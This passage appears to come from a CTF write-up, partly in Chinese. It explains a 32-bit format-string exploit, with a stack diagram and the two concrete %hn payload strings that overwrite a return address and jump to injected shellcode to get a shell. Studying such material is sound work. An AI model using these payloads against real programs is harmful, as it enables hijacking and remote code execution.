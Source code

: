 ```
To illustrate why we write payload in that way
This is an example stack layout, supposing the leak address is 0xffffc970

      *---------------*
c930  |  0xffffc970   |  (addr of format string)
      *---------------*
c934  |  xxxxxxxxxx   |  1$ (first parameter of printf)
      *---------------*
           .....
      *---------------*
c94c  |  return addr  |  7$
      *---------------*
           .....
      *---------------*
c970  |  0xffffc94c   | 16$ (start addr of read buffer)
      *---------------*
c974  |    "%516"     | 17$ (51628 = 0xc9b0 - 4)
      *---------------*
c978  |    "28d%"     | 18$
      *---------------*
c97c  |    "16$h"     | 19$
      *---------------*
c980  |    "naaa"     | 20$
      *---------------*
c984  |  0xffffc94e   | 21$
      *---------------*
c988  |    "%138"     | 22$ (13869 = 0xffff - 0xc9b0 - 4 - 3)
      *---------------*
c98c  |    "69d%"     | 23$
      *---------------*
c990  |    "21$h"     | 24$
      *---------------*
c994  |    "naaa"     | 25$
      *---------------*
c998  |    "aaaa"     | 26$
      *---------------*
           .....
      *---------------*
c9b0  |               |
      |   shellcode   |
      |               |
      *---------------*
```

首先要写的目标是 `0xffffc94c` 也就是返回地址所在位置，向这个位置先写入 `0xc9b0` 也就是后面我们计算出的 shellcode 地址的低 4 位，这里 `-4` 是因为前面已经输出 `0xffffc94c` 这 4 字节了。因此第一步 payload 为 `%51628d%16$hnaaa`，最后 `aaa` 是为了凑到 4 字节对齐，`hn` 是以 2 字节写入，`16` 的偏移可以自动化测出。

同理，第二步要写入的目标是 `0xffffc94e`，写入数据是 shellcode 高 4 位减去低 4 位 `0xffff-0xc9b0`，随后 `-4` 是因为前面已经输出 `0xffffc94e` 这 4 字节，`-3` 是因为第一步填充的 `aaa` 占 3 字节。第二步 payload 即 `%13869d%21$hnaaa`。

两步的 payload 合并后长为 0x28 字节，在后面放上 shellcode，此时即确定了 shellcode 的地址。触发漏洞就能 getshell 了。
